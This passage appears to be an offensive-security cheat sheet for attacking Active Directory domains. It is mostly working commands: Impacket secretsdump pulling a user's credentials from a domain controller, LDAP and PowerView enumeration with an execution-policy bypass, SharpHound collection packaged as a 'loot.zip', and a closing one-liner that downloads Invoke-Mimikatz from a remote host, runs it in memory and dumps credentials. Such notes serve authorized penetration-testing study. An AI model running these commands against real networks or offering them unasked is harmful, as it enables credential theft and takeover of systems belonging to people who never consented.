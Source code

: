 Impacket Secretdump:

    python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

    python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
    
## Other Exploits
[Print Nightmare Walkthrough](https://themayor.notion.site/341cf3705cc64752b466046584de45b8?v=4f2173ad749249b293a89ab5391805ec&p=ef69c17e82c5471fb4648ccabbf5c937) 



## Post Exploitation    
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   
    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
Extracts passwords, hashes, PIN codes and kerberos tickets from memory.   
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)    
[Online Password Cracker - Crackstation](https://crackstation.net/)     
[Dumping Hashes with Mimikatz - Video](https://www.youtube.com/watch?v=AZirvtZNIEw)   
Loading Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"    
   